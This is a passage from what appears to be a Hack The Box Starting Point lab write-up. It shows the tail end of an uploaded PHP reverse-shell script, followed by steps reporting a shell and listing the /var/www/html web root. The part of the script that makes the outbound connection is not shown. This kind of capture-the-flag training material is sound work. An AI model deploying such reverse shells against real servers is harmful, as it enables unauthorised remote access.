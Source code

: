    ```php
   fclose($sock);
   fclose($pipes[0]);
   fclose($pipes[1]);
   fclose($pipes[2]);
   proc_close($process);
   
   function printit ($string) {
   	if (!$daemon) {
   		print "$string\n";
   	}
   }
   
   ?>
   ```

9. We have got a shell

   ![](../assets/img/htb-starting-point/90.png)

10. And for sure, we are particularly interested for the `/var/www/html` folder as it is where the webpage is stored

    ```bash
    ls /var/www/html -lart
    ```

    ![](../assets/img/htb-starting-point/91.PNG)
